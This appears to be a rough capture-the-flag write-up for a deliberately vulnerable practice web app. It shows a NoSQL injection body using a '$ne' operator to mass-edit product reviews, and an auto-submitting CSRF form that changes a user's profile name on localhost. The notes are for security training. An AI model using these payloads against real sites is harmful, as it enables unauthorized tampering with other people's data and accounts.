 
### NoSQL Manipulation

#### Difficulty: Moderate

NoSQL (non-sql or not only sql) is a query which targets databases that do not use sql.

Change query to PATCH /rest/products/reviews

{
    "message":"sdf",
    "id":{ "$ne":-1
  }
}


NOte that this is using MongoDB


But we need to UPDATE the reviews.

adding a review, then going back and editing it. Catch that request in burp.





Next, lets see if we can change the name of one of the users. 
In the description for this challenge there is a link to a site where we can do some real time HTML editing.

![csrf_link](https://github.com/jjolley91/blog/blob/main/static/broken_Auth/csrf_link.png?raw=true)

```HTML
<form action="http://localhost:3000/profile" method="POST">
  <input name="username" value="CSRF"/>
  <input type="submit"/>
</form>
<script>document.forms[0].submit();</script>
```

 First let's go to our user profile, and click 'Set Username', and capture the request in Burp.

![profile_page](https://github.com/jjolley91/blog/blob/main/static/broken_Auth/profile_page.png?raw=true)

